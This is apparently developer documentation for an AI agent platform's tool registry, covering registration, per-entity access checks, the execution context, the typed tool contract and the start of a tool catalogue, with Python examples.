# 09. Tools & the Tool Registry

> **What this document covers:** every tool an AI entity can call on HireBuddha — how tools are declared, discovered, advertised to the LLM, executed, retried, sandboxed, metered and billed — plus a complete catalogue of all 86 registered tools (97 until 2026-10-01, when the 12 `quora`, `x_ads` and `youtube_ads` tools were deleted — TL-23…TL-25 — and `meta_spec_critic` was registered — TX-04).
> **Who should read it:** anyone adding a tool, debugging a tool call, reviewing sandbox security, or tracing where a dollar of tool cost came from.
> **Prerequisites:** [05 — Agent kernel](05-agent-kernel.md) for the loop that decides *when* to call a tool, and [03 — Data model](03-data-model.md) for `ExecutionRun` / `HierarchicalEntity`. Helpful but not required: [04 — Auth, RBAC & tenancy](04-auth-rbac-tenancy.md).

---

## Table of contents

1. [The 60-second version](#1-the-60-second-version)
2. [The tool registry](#2-the-tool-registry)
3. [The tool contract](#3-the-tool-contract)
4. [How to add a new tool](#4-how-to-add-a-new-tool)
5. [The complete tool catalogue](#5-the-complete-tool-catalogue)
6. [`core/` — search, scrape, calculate, write](#6-core--search-scrape-calculate-write)
7. [`documents/` — the generation pipeline](#7-documents--the-generation-pipeline)
8. [`email/` — IMAP and SMTP](#8-email--imap-and-smtp)
9. [`media/` — images and video](#9-media--images-and-video)
10. [`social/` — one primitive, 8 platforms](#10-social--one-primitive-8-platforms)
11. [`crm/` — the tenant CRM bridge](#11-crm--the-tenant-crm-bridge)
12. [`sandbox/` — code, terminal, browser and the trust boundary](#12-sandbox--code-terminal-browser-and-the-trust-boundary)
13. [`meta/` — tools that build the platform](#13-meta--tools-that-build-the-platform)
14. [`mcp/` — deleted](#14-mcp--deleted)
15. [`resilience.py` — retries and recovery](#15-resiliencepy--retries-and-recovery)
16. [`tool_fallback.py` — the substitution table](#16-tool_fallbackpy--the-substitution-table)
17. [Tool budgets and rate limits](#17-tool-budgets-and-rate-limits)
18. [Tool costing and billing](#18-tool-costing-and-billing)
19. [The tool management API and UI](#19-the-tool-management-api-and-ui)
20. [Security review](#20-security-review)
21. [Key files reference](#21-key-files-reference)
22. [Gotchas and things that surprise newcomers](#22-gotchas-and-things-that-surprise-newcomers)
23. [Where to go next](#23-where-to-go-next)

---

## 1. The 60-second version

Anything an agent does that is not "think" is a **tool**. A tool is a Python
class that subclasses `Tool` in
[tools/base.py](../../backend/src/ai/tools/base.py), declares a `name`, a
`description`, and a JSON schema, and implements one async method that takes a
string and returns a string.

All 86 built-in tools register themselves into one in-memory dictionary at
import time in [tools/\_\_init\_\_.py](../../backend/src/ai/tools/__init__.py).
Nothing is dynamically loaded from disk or from the database at runtime.

When a step runs, the step executor builds a `ToolAccess` for the entity — its
granted tools, the meta tools its level gets, the admin kill switches and the
company's opt-ins — and hands the schemas of the tools the model may call to the
LLM as native function declarations. The LLM answers with a function call. The
`ToolExecutor` resolves the name through the same `ToolAccess` (a tool the
entity was not granted is refused, not run), executes it, times it, wraps the
outcome in a typed `ToolResult`, logs a `tool_interaction_logs` row, and charges
the run. See §2.3.



Four things a newcomer should internalise straight away:

1. **The registry is a process-local dict.** `ToolRegistry._tools` is a class
   attribute. Every worker process has its own copy, built at import time.
2. **The database table `tool_registry_entries` is metadata, not code.** You
   can create a "custom tool" through the admin API, but nothing ever turns that
   row into an executable object. See §19.
3. **The tool interface is stringly typed.** The LLM's structured arguments get
   serialised to a JSON string, and most tools parse that string themselves.
   A large fraction of tool code is defensive JSON parsing.
4. **Tools reach the outside world directly.** Search, scraping, email, social
   posting and sandboxed shell all make network calls or spend money from inside
   the tool. Read §20 before you add one.

---

## 2. The tool registry

### 2.1 The in-code registry

There is exactly one registry class,
[ToolRegistry](../../backend/src/ai/tools/base.py:149), and it holds two
dictionaries:

```python
# backend/src/ai/tools/base.py
class ToolRegistry:
    _tools: Dict[str, Tool] = {}
    _tenant_tools: Dict[str, Dict[str, Tool]] = {}  # company_id -> {name: Tool}

    @classmethod
    def register(cls, tool: Tool) -> None:
        cls._tools[tool.name] = tool

    @classmethod
    def get_tool(cls, name: str, company_id: Optional[UUID] = None) -> Optional[Tool]:
        """Get a tool by name. Tenant tools take priority over global."""
        if company_id:
            tenant = cls._tenant_tools.get(str(company_id), {})
            if name in tenant:
                return tenant[name]
        return cls._tools.get(name)
```

Registration happens as an import side effect. Importing
`src.ai.tools` runs 86 `ToolRegistry.register(SomeTool())` statements
([tools/\_\_init\_\_.py:42](../../backend/src/ai/tools/__init__.py:42) onwards).
Because they are module-level singletons, **a tool instance is shared across all
tenants and all concurrent runs in a worker** — never store per-call state on
`self`. Since 2026-10-01 (TX-02) registration freezes the instance: an attribute
write after `register`/`register_tenant_tool` raises `AttributeError`, so the
mistake fails where it is made instead of leaking one run's company or credential
into another. Set what a tool needs in `__init__`; per-call values live in locals
or come from the execution context (§3.2).

Tenant-scoped tools exist but only one code path creates them (the MCP adapter
was the other; it was deleted with its package on 2026-10-01, TL-22):

| Caller | What it registers |
|--------|-------------------|
| [meta/tool_synthesis_pipeline.py](../../backend/src/ai/meta/tool_synthesis_pipeline.py) | a `SandboxedSynthesizedTool` for a freshly synthesized DRAFT tool |

It is in-process only. Restart the worker and the tenant tools are gone
until something re-binds them.

### 2.2 Tool status values

`ToolStatus` is a four-value enum in
[base.py:22](../../backend/src/ai/tools/base.py:22). The package README still
says three — that is stale; `DRAFT` was added later.

| Status | Meaning | Runs for an entity granted it? |
|--------|---------|---------------------|
| `ACTIVE` | Verified, generally available. The implicit default on `Tool`. | Yes |
| `EXPERIMENTAL` | Registered globally but unverified. | Only with `tools.experimental.{tool_id}` on for the company |
| `DEPRECATED` | Kept for backward compatibility, slated for removal. | Yes, with an `agent.tool.deprecated_call` event (like a `DEPRECATED` entity, D6) |
| `DRAFT` | Freshly LLM-synthesized. Never registered globally, tenant-only, `trust=low`. | Only with the same opt-in flag |



Who carries which status today:

| Status | Tools |
|--------|-------|
| `EXPERIMENTAL` | `social_api`, `video_generate`, `video_edit`, `video_add_sound`, `tool_synthesis` |
| `DEPRECATED` | none registered (`video_generation`, the last one, was deleted on 2026-09-29, PO-17) |
| `DRAFT` | `SandboxedSynthesizedTool` instances |
| `ACTIVE` | everything else — all of `core/`, `documents/`, `email/`, `crm/`, `sandbox/`, `image_generation`, and the meta tools other than `tool_synthesis` |

### 2.3 Tool access — the one resolution point

> **Since 2026-10-01 (P3.1 of the [consolidated plan](defect-register/CONSOLIDATED-KERNEL-TOOLS-PLAN.md),
> TL-50, TL-10, TL-12, TX-03, TL-13, TL-14).** Before, every execution path looked
> tools up by name in the global registry with no company, grant, status or
> `is_enabled` check: an entity granted only `web_search` could call `email_send`
> if the model named it, and the "not found" error listed every tool. The status
> gate (`get_visible_tools_for_company`) had no production caller; it is deleted.

[`ToolAccess`](../../backend/src/ai/governance/tool_access.py) decides whether a
tool may run, for one entity in one company. It is loaded once per step (once per
call session for voice) and resolves in memory after that:

| Check, in order | Refusal reason | Source |
|---|---|---|
| The entity is granted the tool (`capabilities.tools`) or the platform injects it (the meta-cognition tools for its level, `resolve_meta_cognition`) | `not_granted` | the entity |
| The model may call it (`llm_callable`), or a plan step may (`plan_callable`) | `not_llm_callable` / `not_plan_callable` | the grant |
| No admin switched it off (`tool_registry_entries.is_enabled = false`, the platform row or the company's) | `disabled` | one query per load |
| It is registered — the company's own (tenant) tools first, then the platform's | `not_registered` | `ToolRegistry.get_tool(name, company_id)` |
| `EXPERIMENTAL`/`DRAFT` tools need `tools.experimental.{name}` on for the company | `opt_in_required` | `FeatureFlags` |

A grant (`ToolGrant` in [schemas/capabilities.py](../../backend/src/ai/schemas/capabilities.py))
is `{tool_id, llm_callable, plan_callable, rate_limit_per_run}`. The builder still
sends `usage`; it is translated when the entity is saved: `PLANNED` ⇒ the model may
not call it, `AUTONOMOUS`/`BOTH`/absent ⇒ both.



Every caller goes through it, and `ToolExecutor`'s two entry points take it as a
required argument — there is no way to run a tool by name alone:

| Path | Builds `ToolAccess` | via |
|---|---|---|
| ReAct / chain-of-thought step (`StepExecutorService._execute_thought`) | per step | `llm` |
| `TOOL_CALL` plan step (`_execute_tool_call`) | per step | `plan` |
| `ToolResilience` retries and fallbacks | the caller's | the original call's — a fallback the entity was not granted is refused |
| Voice (`agent_loader` advertisement, `voice/tool_calls.py` calls) | per call session, without the meta tools; the session's calls are logged and charged to one run per call (TL-20) | `llm` |

Advertisement and execution use the same rule, so nothing is offered that would be
refused. A refusal reaches the model as `Error: tool 'x' is not granted to this
entity. Tools available to you: …` — the entity's tools, never the catalogue.

### 2.4 The `tool_registry_entries` table

[orm/tools.py](../../backend/src/ai/orm/tools.py) defines the persistent side.
It is a **metadata mirror**, seeded from the in-code registry.



| Column | Notes |
|--------|-------|
| `name` | globally unique, must match `Tool.name` for built-ins |
| `tool_type` | the ORM comment says `BUILT_IN \| CUSTOM`, but the synthesis pipeline writes a third value, `SYNTHESIZED` ([tool_synthesis_pipeline.py:80](../../backend/src/ai/meta/tool_synthesis_pipeline.py:80)) |
| `is_enabled` | the admin kill switch: `false` refuses the tool for every entity — the platform row for everyone, a company's row for that company (§2.3; it disabled nothing before P3.1, TL-14) |
| `configuration` | free-form JSON; for synthesized tools it carries `status`, `trust`, `network_policy`, the generated `source`, and the full audit trail |
| `company_id` | `NULL` means system-wide; `sync_built_in_tools()` leaves it `NULL` |

Rows appear in three ways: `POST /api/v1/ai/tool-registry/sync-built-in` (seeds
one row per registered tool), `POST /api/v1/ai/tool-registry` (an admin creating
a CUSTOM entry), and the tool-synthesis pipeline (a DRAFT `SYNTHESIZED` entry).

---

## 3. The tool contract

### 3.1 The base class

Everything lives in [tools/base.py](../../backend/src/ai/tools/base.py). A tool is a
subclass of `Tool`. Since P6.1 (2026-10-02, TL-41, TL-30, TX-I2) there is **one
contract and one entry point**:

```python
# backend/src/ai/tools/base.py
class Tool(ABC):
    name: str
    description: str
    status: ToolStatus = ToolStatus.ACTIVE
    Params: ClassVar[Optional[Type[ToolParams]]] = None   # the arguments, typed
    string_field: ClassVar[Optional[str]] = None          # what a plan step's text fills

    async def execute(self, params: ToolParams, ctx: dict) -> ToolOutput: ...   # a typed tool
    async def invoke(self, args, context) -> ToolOutput: ...                    # the one entry point
    def get_function_schema(self) -> dict: ...            # derived from Params when typed
```

| Piece | What it does |
|---|---|
| `Params` | A `ToolParams` model (Pydantic, `extra="forbid"`): the tool's arguments and their descriptions |
| `execute(params, ctx)` | The call, given validated arguments and the server-minted context (§3.2) |
| `invoke(args, context)` | What `ToolExecutor` calls for a model's call **and** a plan step. A typed tool's arguments are validated against `Params`; arguments that do not fit are a failed `ToolOutput` with `error_code="invalid_arguments"` naming the fields and the expected ones — never a fallback to another path. A plan step's plain text fills `string_field` (`web_search`'s `query`) |
| `run_with_context(input, context)` | For a typed tool, a bridge to `invoke` for the few callers that still pass a string. For a tool not yet converted (`Params is None`), its implementation — `invoke` adapts it in one place |

**Decision D16:** the tools P6 touches are converted; the rest stay on the adapter.
`tests/unit/test_tool_contract.py` lists them (`UNCONVERTED`): the list may only
shrink, and a newly registered tool must declare `Params`. Before P6.1 a tool could be
entered through `run`, `run_with_context`, `run_typed` or the executor's reflection,
which found `run_typed` by type hints and fell back to the string path silently on any
error; `supports_context()` and `run_typed` are gone.

### 3.2 The `context` dict

> **Since 2026-10-01 (P3.2, TL-53, TL-65, TL-03).** Before, the ReAct path spread
> the whole step context — which holds the run's input — into the tool context,
> so `container_runtime: false`, `persona` or `__is_meta_agent__: true` in
> `input_data` reached every tool; `__is_meta_agent__` itself was never set by the
> platform; and a dozen tools fell back to a `company_id` the model wrote into
> their parameters.

What a tool is told about its call is an
[`ExecutionContext`](../../backend/src/ai/governance/tool_access.py) the platform
builds — `ExecutionContext.for_run(run, entity, run_context)` on both step paths,
`ExecutionContext.for_session(...)` for voice. Each call gets a fresh dict:

| Key | From |
|---|---|
| `company_id`, `user_id`, `run_id` | the run row (voice: the session and the call's run; `user_id` is `"default"` when there is none) |
| `agent_id`, `entity_id`, `__entity_id__` | the entity |
| `__entity_name__` | the entity's name |
| `__is_meta_agent__` | the entity's `metadata_extensions.is_meta_agent` |
| `__meta_max_runtime_creations__` | the entity's `capabilities.meta_cognition.max_runtime_creations` (default 3) |
| `campaign_id` | voice only: the session's campaign |
| `__agent_state__`, `__execution_metadata__`, `__cortex_tree_id__`, `__cortex_cursor__` | the loop's state for this run (`LOOP_STATE_KEYS`) |

Nothing else reaches a tool: not the run's input, not the step's outputs (those
reach the model through the prompt), not a runtime knob. The tool's own input is
exactly what the model or the plan step passed — the context is no longer merged
into it.

**Tenancy comes from the context only.** A tool reads its company with
`context_company_id(context)` ([tools/base.py](../../backend/src/ai/tools/base.py)).
Called without a context — `run()`, or any caller that is not the platform — it
returns `NO_CONTEXT_ERROR` instead of using a `company_id` from its parameters.

**The API refuses platform keys in run input** (422):
`ExecutionRunCreate.input_data` may not set a `__`-prefixed key or any of
`RESERVED_INPUT_KEYS` (`feature_flags`, `cortex_tree_id`, `subtree_root_id`,
`company_id`, `user_id`, `run_id`, `agent_id`, `entity_id`, `container_runtime`,
`persistent_browser`) — [schemas/execution.py](../../backend/src/ai/schemas/execution.py).
Retry, refine, child and tree-resume runs write such keys themselves; they build
their rows directly.

### 3.3 The JSON schema a tool advertises

`get_function_schema()` returns a provider-agnostic OpenAI-style function declaration;
`LLMRouter` adapters translate it per provider. For a typed tool it is **derived from
`Params`** (`model_json_schema()`, titles dropped), so what the model is told and what
the tool reads cannot drift:

```python
# backend/src/ai/tools/core/search.py
class WebSearchParams(ToolParams):
    query: str = Field(..., description="The search query to look up on the web")
    num_results: int = Field(8, ge=1, le=20, description="How many results to return (1-20, default 8)")
```

becomes `{"type": "object", "properties": {"query": …, "num_results": {"type":
"integer", "minimum": 1, "maximum": 20, "default": 8, …}}, "required": ["query"]}`.
(`num_results` was advertised before P6.1 and never read.) An unconverted tool still
hand-writes its schema; the base default is a single free-text `input`, which
`tool_synthesis`, `meta_spec_critic` and `SandboxedSynthesizedTool` use.

### 3.4 The result shape

A tool returns a `ToolOutput` ([tools/base.py](../../backend/src/ai/tools/base.py)):
`success`, `output` (what the model reads — text, or a JSON-able object), `error`,
`error_code`, `metadata`; `ToolOutput.failed(error, code)` builds a failure. The
executor turns it into its own dataclass, the **only** class named `ToolResult`
(TL-30; before P6.1 the Pydantic one in `base.py` shared the name and no fields):

```python
# backend/src/ai/tool_executor.py
@dataclass
class ToolResult:
    tool: str
    args: Dict[str, Any]
    output: Any
    success: bool
    latency_ms: int = 0
    error: Optional[str] = None    # Set when success=False
    skipped: bool = False          # a refused call (P3.1)
    skip_reason: Optional[str] = None
    reformatted: bool = False      # the call ran on input an LLM rewrote (EP-24)
    timestamp: str = ...
```

An unconverted tool still reports failure inside its string (`Error: …`,
`{"error": …}`); `settle_result` recognises those (TL-52), so a failed call is logged as
failed and not billed either way.

### 3.5 Dispatch



Both executor methods go through one function, `_run`, which calls `invoke` and measures
latency.

### 3.6 A minimal complete tool

```python
class EchoParams(ToolParams):
    text: str = Field(..., description="What to echo")
    times: int = Field(1, ge=1, le=3, description="How many times")


class EchoTool(Tool):
    name = "echo"
    description = "Echo text back."          # a prompt: the model reads only this and the schema
    Params = EchoParams
    string_field = "text"                    # a plan step's text is the text

    async def execute(self, params: EchoParams, ctx: dict) -> ToolOutput:
        company = ctx.get("company_id")      # who the call is for: the context, never params
        return ToolOutput(output=" ".join([params.text] * params.times))
```

Conventions: return failures as `ToolOutput.failed(...)` rather than raising (an
exception becomes a failed call too, but loses its error code); take the company, run
and entity from `ctx` (§3.2); keep nothing per call on `self` — registered instances are
frozen (TX-02).

---

## 4. How to add a new tool



Step by step:

1. **Choose the subpackage.** `backend/src/ai/tools/<subdomain>/`. Only
   `__init__.py`, `base.py` and `resilience.py` live at the `tools/` root.

2. **Write the class.**

   ```python
   # backend/src/ai/tools/core/my_tool.py
   import json
   from typing import Any, Dict, Optional
   from src.ai.tools.base import Tool, ToolStatus

   class MyTool(Tool):
       name = "my_tool"                      # snake_case, this IS the LLM-facing id
       status = ToolStatus.EXPERIMENTAL      # start here, promote after verification
       description = (
           "One sentence on what it does. "
           "Input: JSON with 'foo' (string) and optional 'bar' (int)."
       )

       async def run(self, input_data: str) -> str:
           return await self.run_with_context(input_data, context=None)

       async def run_with_context(self, input_data: str,
                                  context: Optional[Dict[str, Any]] = None) -> str:
           try:
               params = json.loads(input_data) if isinstance(input_data, str) else input_data
           except (json.JSONDecodeError, TypeError):
               return json.dumps({"error": "Invalid JSON input. Expected {foo, bar}."})
           company_id = (context or {}).get("company_id")
           ...
           return json.dumps({"status": "success", "result": ...})

       def get_function_schema(self) -> Dict[str, Any]:
           return {
               "name": self.name,
               "description": self.description,
               "parameters": {
                   "type": "object",
                   "properties": {
                       "foo": {"type": "string", "description": "..."},
                       "bar": {"type": "integer", "description": "..."},
                   },
                   "required": ["foo"],
               },
           }
   ```

3. **Register it.** In [tools/\_\_init\_\_.py](../../backend/src/ai/tools/__init__.py):
   add the import, add `ToolRegistry.register(MyTool())`, and add the class name
   to `__all__`.

4. **Its category** is its subpackage's (`tool_category` in
   [tools/base.py](../../backend/src/ai/tools/base.py): `core`, `document`, `email`, `media`,
   `social`, `crm`, `execution`, `meta`). Set the class's `category` to refine it (TL-35;
   a hand-written map covered 22 of 98 tools until P6.9).

5. **Give it a price.** If it maps to a paid API, add the SKU to `TOOL_SKU_MAP`
   in [governance/tool_cost_resolver.py:40](../../backend/src/ai/governance/tool_cost_resolver.py:40)
   **and** the duplicate `_TOOL_SKU_MAP` literals in
   [step_executor.py:466](../../backend/src/ai/step_executor.py:466) and
   [step_executor.py:924](../../backend/src/ai/step_executor.py:924) — see §18
   for why there are three copies. Also add a baseline to `TOOL_BASELINE_COST`
   in [planning/cost_estimator.py:22](../../backend/src/ai/planning/cost_estimator.py:22)
   so the planner can price plans that use it.

6. **Optional: a fallback.** If another tool can do roughly the same job, add a
   chain in [tool_fallback.py:26](../../backend/src/ai/tool_fallback.py:26).

7. **Sync to the DB** so admins can see and toggle it:
   `POST /api/v1/ai/tool-registry/sync-built-in`.

8. **Reference it from an entity.** A tool is only reachable if some entity's
   `capabilities.tools` lists `{"tool_id": "my_tool", "usage": "AUTONOMOUS"}`.
   Registration alone does nothing.

---

## 5. The complete tool catalogue

86 tools are registered globally. Below is every one of them. Columns:
**Status** is the `ToolStatus`; **SKU / cost** is what §18 resolves for billing
(`—` means no cost entry exists and the call bills $0).

Legend for external dependency: `—` = pure local compute.

### 5.1 `core/` — 5 tools

| Tool id | Category | File | What it does | Key parameters | External dependency | Status | SKU / cost |
|---|---|---|---|---|---|---|---|
| `calculator` | utility | [core/calculator.py](../../backend/src/ai/tools/core/calculator.py) | AST-based safe arithmetic, no `eval` | `expression` | — | ACTIVE | — |
| `web_search` | search | [core/search.py](../../backend/src/ai/tools/core/search.py) | Web search, 3-tier backend | `query` | SerpAPI, then `ddgs` lib, then DuckDuckGo IA API | ACTIVE | `serp-api-key` |
| `batch_web_search` | search | [core/batch_search.py](../../backend/src/ai/tools/core/batch_search.py) | Runs up to 25 queries sequentially; keeps `max_per_query` each; drops URLs an earlier query returned | `queries[]`, `max_per_query` | same as `web_search` | ACTIVE | `serp-api-key` × the sub-queries SerpAPI answered |
| `scraper_tool` | browser | [core/scraper.py](../../backend/src/ai/tools/core/scraper.py) | Firecrawl page scrape to markdown, saved as an artifact | `url`, `purpose` | Firecrawl API | ACTIVE | `firecrawl-api` / `firecrawl` |
| `file_writer` | document | [core/file_writer.py](../../backend/src/ai/tools/core/file_writer.py) | Writes text to `artifact/system-generated/{company}/{date}/` | `filename`, `content`, `purpose` | local disk | ACTIVE | — |

### 5.2 `documents/` — 5 registered tools plus 1 library

| Tool id | Category | File | What it does | Key parameters | External dependency | Status | SKU / cost |
|---|---|---|---|---|---|---|---|
| `pdf_generator` | document | [documents/pdf_generator.py](../../backend/src/ai/tools/documents/pdf_generator.py) | Markdown to styled PDF via WeasyPrint, embeds images | `content`, `title`, `filename`, `author`, `subject`, `image_paths[]` | WeasyPrint, `markdown` | ACTIVE | `pdf-generator` |
| `docx_tool` | document | [documents/docx_tool.py](../../backend/src/ai/tools/documents/docx_tool.py) | create / read / update Word documents | `action`, `filename`, `title`, `sections[]`, `file_path`, `replacements[]` | `python-docx` | ACTIVE | — |
